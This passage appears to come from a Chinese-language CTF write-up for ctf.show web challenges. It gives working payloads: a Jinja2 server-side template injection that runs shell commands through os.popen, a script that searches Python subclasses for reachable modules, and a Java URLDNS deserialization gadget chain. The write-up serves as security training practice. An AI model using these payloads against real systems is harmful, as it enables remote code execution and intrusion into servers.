echo file_get_contents($_POST['url']);
}
else{
    die('scheme');
}
?>
```

### ssti

通过遍历找模块

```python
from flask import Flask, request
from jinja2 import Template


app = Flask(__name__)

@app.route("/")
def index():
    search = 'os'   #你想利用的模块
    num = -1
    for i in ().__class__.__base__.__subclasses__():
        num += 1
        try:
            if search in i.__init__.__globals__.keys():
                print(i, num)
        except:
            # print("no")
            pass


if __name__ == "__main__":
    app.run()
```

#### web361

没有waf，直接打

```
{{g.pop.__globals__.__builtins__['__import__']('os').popen('cat /flag').read()}}
```


#### web362

```

```


### **Java反序列化：**

#### web846

URLDNS

payload：

```java
import java.io. *;
import java.lang.reflect.Field;
import java.util.*;
import java.net.URL;
import java.util.HashMap;


public class URLDNS {
    public static void serialize(Object obj) throws IOException{
        ByteArrayOutputStream data =new ByteArrayOutputStream();
        ObjectOutput oos =new ObjectOutputStream(data);
        oos.writeObject(obj);
        oos.flush();
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(data.toByteArray()));
    };
    public static void main(String[] args) throws Exception{
        HashMap<URL,Integer> hashmap = new HashMap<URL,Integer>();
        URL url = new URL("https://78c78067-c876-40fb-b175-edb3b743655d.challenge.ctf.show/");
        Class c = url.getClass();
        Field hashcodefield = c.getDeclaredField("hashCode");
        hashcodefield.setAccessible(true);
//          不想这里发起请求，把url对象的hashcode改成不是-1
        hashcodefield.set(url,911);
        hashmap.put(url,1);
        hashcodefield.set(url,-1);
//          这里把hashcode改回-1

        serialize(hashmap);
    }
}
```

